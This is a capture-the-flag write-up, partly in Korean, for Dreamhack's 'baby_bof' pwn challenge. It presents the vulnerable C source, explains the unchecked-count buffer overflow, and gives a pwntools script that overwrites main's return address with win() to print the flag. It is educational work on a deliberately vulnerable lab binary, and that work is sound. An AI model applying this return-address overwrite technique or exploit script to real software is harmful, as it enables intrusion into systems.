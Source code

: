 # baby_bof - Dreamhack
## Challenge Info
- Date: 2025
- CTF Name: Dreamhack
- Category: pwn
- Difficulty (subjective): easy
- Points: basic
- Provided Files: baby-bof.c, baby-bof(ELF)
- tools:
## Brief Description
Simple pwnable 101 challenge  
Q. What is Return Address?  
Q. Explain that why BOF is dangerous.
## Initial Analysis
### Environment
``` sh
checksec baby-bof
Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
SHSTK:      Enabled
IBT:        Enabled
Stripped:   No
```
### Code
``` c
// gcc -o baby-bof baby-bof.c -fno-stack-protector -no-pie
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <fcntl.h>
#include <signal.h>
#include <time.h>

void proc_init () {
  setvbuf (stdin, 0, 2, 0); setvbuf (stdout, 0, 2, 0);
  setvbuf (stderr, 0, 2, 0);
}

void win () {
  char flag[100] = {0,};
  int fd;
  puts ("You mustn't be here! It's a vulnerability!");

  fd = open ("./flag", O_RDONLY);
  read(fd, flag, 0x60);
  puts(flag);
  exit(0);
}

long count;
long value;
long idx = 0;
int main () {
  char name[16];

  // don't care this init function
  proc_init (); 

  printf ("the main function doesn't call win function (0x%lx)!\n", win);

  printf ("name: ");
  scanf ("%15s", name);

  printf ("GM GA GE GV %s!!\n: ", name);

  printf ("|  addr\t\t|  value\t\t|\n");
  for (idx = 0; idx < 0x10; idx++) {
    printf ("|  %lx\t|  %16lx\t|\n", name + idx *8, *(long*)(name + idx*8));
  }

  printf ("hex value: ");
  scanf ("%lx%c", &value);

  printf ("integer count: ");
  scanf ("%d%c", &count);


  for (idx = 0; idx < count; idx++) {
    *(long*)(name+idx*8) = value;
  }

  
  printf ("|  addr\t\t|  value\t\t|\n");
  for (idx = 0; idx < 0x10; idx++) {
    printf ("|  %lx\t|  %16lx\t|\n", name + idx *8, *(long*)(name + idx*8));
  }

  return 0;
}
```
사용자로부터 총 3번의 입력을 받는다. 첫 번째 입력은 name을 초기화 시키고, 두 번째 입력은 `value` 값을 초기화 하며, 마지막 세 번재 입력은 `count` 값을 초기화 한다. 이후 `name` 주소부터 시작해서 `count` 만큼 8byte 씩 `value` 값을 덮어쓴다.  
`win()` 함수에서 FLAG를 출력한다. 그러나 `main()` 함수에서 `win()` 함수를 호출하는 로직이 존재하지 않는다.  
## Vulnerability
### BOF(Buffer Overflow)
``` c
for (idx = 0; idx < count; idx++) {
    *(long*)(name+idx*8) = value;
}
```
`name`의 시작 주소부터 8byte씩 `value` 값으로 덮어쓴다.  
`name`의 크기는 0x10인 반면, 사용자로부터 입력 받는 `idx`의 크기를 검증/필터링하지 않아 BOF 취약점이 발생한다.  
## Exploit
### Strategy
canary와 PIE 모두 비활성화 되어있어, 간단하게 BOF 취약점을 이용해 `main()`의 Return Address를 `win()`의 주소로 덮어쓰면 FLAG를 얻을 수 있다.  
간단한 문제지만 payload를 작성할 때 주의할 점은, 메모리를 long 타입의 `value`의 값으로 덮어쓰기 때문에 평소 문자열로 주소를 덮어쓸 때처럼 `p64()` 함수를 통해 little endian으로 변환을 거치지 않고 그대로 입력해야 한다.  
### Exploitation Steps
### Stack Frame of main
| Variable Name | Offset from RBP |
| --- | --- |
| ra | 0x8 |
| rbp |  |
| name | -0x10 |
### payload
``` python
from pwn import *

p = remote('host8.dreamhack.games', 23046) 

win_addr = 0x000000000040125b

p.sendlineafter(b'name: ', b'A'*8)
p.sendlineafter(b'hex value: ', b'0x40125b') 
p.sendlineafter(b'integer count: ', b'4')

p.interactive()
```
